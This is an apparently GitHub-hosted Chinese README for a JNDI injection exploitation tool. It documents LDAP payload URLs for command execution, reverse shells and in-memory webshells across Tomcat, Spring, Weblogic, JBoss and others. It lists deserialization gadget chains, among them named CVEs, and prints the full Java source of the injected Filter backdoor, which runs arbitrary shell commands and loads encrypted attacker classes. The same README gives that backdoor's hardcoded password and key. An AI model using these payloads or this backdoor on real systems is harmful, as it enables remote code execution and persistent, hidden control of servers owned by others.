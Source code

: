 ## jndi_tool

### 0x1. JNDI工具

编写jndi注入利用工具，生成jar包方式

- 使用idea打开项目，把lib文件夹的jar包添加到依赖，使用maven插件打包生成
- 安装maven，进入项目根目录执行`mvn clean package`生成jar包

### 0x2. 使用说明

使用 `java -jar jndi_tool-1.0-SNAPSHOT.jar -h` 查看参数说明，其中 `--ip` 参数为必选参数

```
Usage: java -jar jndi_tool-1.0-SNAPSHOT.jar [options]
  Options:
  * -i, --ip       Local ip address
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8080)
    -u, --usage    Show usage (default: false)
    -h, --help     Show this help
```

使用 `java -jar JNDIExploit.jar -u` 查看支持的 LDAP 格式

```
Supported LADP Queries
* all words are case INSENSITIVE when send to ldap server

[+] Basic Queries: ldap://127.0.0.1:1389/Basic/[PayloadType]/[Params], e.g.
    ldap://127.0.0.1:1389/Basic/Dnslog/[domain]
    ldap://127.0.0.1:1389/Basic/Command/[cmd]
    ldap://127.0.0.1:1389/Basic/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/Basic/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/Basic/TomcatEcho
    ldap://127.0.0.1:1389/Basic/SpringEcho
    ldap://127.0.0.1:1389/Basic/WeblogicEcho
    ldap://127.0.0.1:1389/Basic/TomcatMemshell1
    ldap://127.0.0.1:1389/Basic/TomcatMemshell2  ---need extra header [Shell: true]
    ldap://127.0.0.1:1389/Basic/JettyMemshell
    ldap://127.0.0.1:1389/Basic/WeblogicMemshell1
    ldap://127.0.0.1:1389/Basic/WeblogicMemshell2
    ldap://127.0.0.1:1389/Basic/JBossMemshell
    ldap://127.0.0.1:1389/Basic/WebsphereMemshell
    ldap://127.0.0.1:1389/Basic/SpringMemshell

[+] Deserialize Queries: ldap://127.0.0.1:1389/Deserialization/[GadgetType]/[PayloadType]/[Params], e.g.
    ldap://127.0.0.1:1389/Deserialization/URLDNS/[domain]
    ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK1/Dnslog/[domain]
    ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK2/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK3/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK4/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/Deserialization/CommonsBeanutils1/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/Deserialization/CommonsBeanutils2/TomcatEcho
    ldap://127.0.0.1:1389/Deserialization/C3P0/SpringEcho
    ldap://127.0.0.1:1389/Deserialization/Jdk7u21/WeblogicEcho
    ldap://127.0.0.1:1389/Deserialization/Jre8u20/TomcatMemshell1
    ldap://127.0.0.1:1389/Deserialization/CVE_2020_2555/WeblogicMemshell1
    ldap://127.0.0.1:1389/Deserialization/CVE_2020_2883/WeblogicMemshell2    ---ALSO support other memshells

[+] TomcatBypass Queries
    ldap://127.0.0.1:1389/TomcatBypass/Dnslog/[domain]
    ldap://127.0.0.1:1389/TomcatBypass/Command/[cmd]
    ldap://127.0.0.1:1389/TomcatBypass/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/TomcatBypass/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/TomcatBypass/TomcatEcho
    ldap://127.0.0.1:1389/TomcatBypass/SpringEcho
    ldap://127.0.0.1:1389/TomcatBypass/TomcatMemshell1
    ldap://127.0.0.1:1389/TomcatBypass/TomcatMemshell2   ---need extra header [Shell: true]
    ldap://127.0.0.1:1389/TomcatBypass/SpringMemshell

[+] GroovyBypass Queries
    ldap://127.0.0.1:1389/GroovyBypass/Command/[cmd]
    ldap://127.0.0.1:1389/GroovyBypass/Command/Base64/[base64_encoded_cmd]
```

- 目前支持的所有 `PayloadType` 为
	- `Dnslog`: 用于产生一个`DNS`请求，与 `DNSLog`平台配合使用，对`Linux/Windows`进行了简单的适配
	- `Command`: 用于执行命令，如果命令有特殊字符，支持对命令进行 `Base64编码`后传输
	- `ReverseShell`: 用于 `Linux` 系统的反弹shell，方便使用
	- `TomcatEcho`: 用于在中间件为 `Tomcat` 时命令执行结果的回显，通过添加自定义`header` `cmd: whoami` 的方式传递想要执行的命令
	- `SpringEcho`: 用于在框架为 `SpringMVC/SpringBoot` 时命令执行结果的回显，通过添加自定义`header` `cmd: whoami` 的方式传递想要执行的命令
	- `WeblogicEcho`: 用于在中间件为 `Weblogic` 时命令执行结果的回显，通过添加自定义`header` `cmd: whoami` 的方式传递想要执行的命令
	- `TomcatMemshell1`: 用于植入`Tomcat内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`
	- `TomcatMemshell2`: 用于植入`Tomcat内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`, 使用时需要添加额外的`HTTP Header` `Shell: true`, **推荐**使用此方式
	- `SpringMemshell`: 用于植入`Spring内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`
	- `WeblogicMemshell1`: 用于植入`Weblogic内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`
	- `WeblogicMemshell2`: 用于植入`Weblogic内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`，**推荐**使用此方式
	- `JettyMemshell`: 用于植入`Jetty内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`
	- `JBossMemshell`: 用于植入`JBoss内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`
	- `WebsphereMemshell`: 用于植入`Websphere内存shell`， 支持`Behinder shell` 与 `Basic cmd shell`
- 目前支持的所有 `GadgetType`为
	- `URLDNS`
	- `CommonsBeanutils1`
	- `CommonsBeanutils2`
	- `CommonsCollectionsK1`
	- `CommonsCollectionsK2`
	- `CommonsCollectionsK3`
	- `CommonsCollectionsK4`
	- `C3P0`
	- `Jdk7u21`
	- `Jre8u20`
	- `CVE_2020_2551`
	- `CVE_2020_2883`

### 0x3. `内存shell`说明（部分场景）

- 采用动态添加 `Filter/Controller`的方式，并将添加的`Filter`移动至`FilterChain`的第一位
- `内存shell` 的兼容性测试结果请参考 [memshell](https://github.com/feihong-cs/memShell) 项目
- `Basic cmd shell` 的访问方式为 `/anything?type=basic&pass=[cmd]`
- `Behinder shell` 的访问方式需要修改`冰蝎`客户端（请参考 [冰蝎改造之适配基于tomcat Filter的无文件webshell](https://mp.weixin.qq.com/s/n1wrjep4FVtBkOxLouAYfQ) 的方式二自行修改），并在访问时需要添加 `X-Options-Ai` 头部，密码为`rebeyond`

植入的 Filter 代码如下：

```java
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("[+] Dynamic Filter says hello");
        String k;
        Cipher cipher;
        if (servletRequest.getParameter("type") != null && servletRequest.getParameter("type").equals("basic")) {
            k = servletRequest.getParameter("pass");
            if (k != null && !k.isEmpty()) {
                cipher = null;
                String[] cmds;
                if (File.separator.equals("/")) {
                    cmds = new String[]{"/bin/sh", "-c", k};
                } else {
                    cmds = new String[]{"cmd", "/C", k};
                }

                String result = (new Scanner(Runtime.getRuntime().exec(cmds).getInputStream())).useDelimiter("\\A").next();
                servletResponse.getWriter().println(result);
            }
        } else if (((HttpServletRequest)servletRequest).getHeader("X-Options-Ai") != null) {
            try {
                if (((HttpServletRequest)servletRequest).getMethod().equals("POST")) {
                    k = "e45e329feb5d925b";
                    ((HttpServletRequest)servletRequest).getSession().setAttribute("u", k);
                    cipher = Cipher.getInstance("AES");
                    cipher.init(2, new SecretKeySpec((((HttpServletRequest)servletRequest).getSession().getAttribute("u") + "").getBytes(), "AES"));
                    byte[] evilClassBytes = cipher.doFinal((new BASE64Decoder()).decodeBuffer(servletRequest.getReader().readLine()));
                    Class evilClass = (Class)this.myClassLoaderClazz.getDeclaredMethod("defineClass", byte[].class, ClassLoader.class).invoke((Object)null, evilClassBytes, Thread.currentThread().getContextClassLoader());
                    Object evilObject = evilClass.newInstance();
                    Method targetMethod = evilClass.getDeclaredMethod("equals", ServletRequest.class, ServletResponse.class);
                    targetMethod.invoke(evilObject, servletRequest, servletResponse);
                }
            } catch (Exception var10) {
                var10.printStackTrace();
            }
        } else {
            filterChain.doFilter(servletRequest, servletResponse);
        }

    }
```



JNDI利用工具参考

- https://github.com/Jeromeyoung/JNDIExploit-1

- https://github.com/veracode-research/rogue-jndi
- https://github.com/welk1n/JNDI-Injection-Exploit
- https://github.com/welk1n/JNDI-Injection-Bypass



### 0x4. 待完善

内存马注入公网靶机后，tomcat线性获取不到，无法加载

![image-20220905234432479](E:/workspaceCTFWP/images/image-20220905234432479.png)

![image-20220905235047071](E:/workspaceCTFWP/images/image-20220905235047071.png)

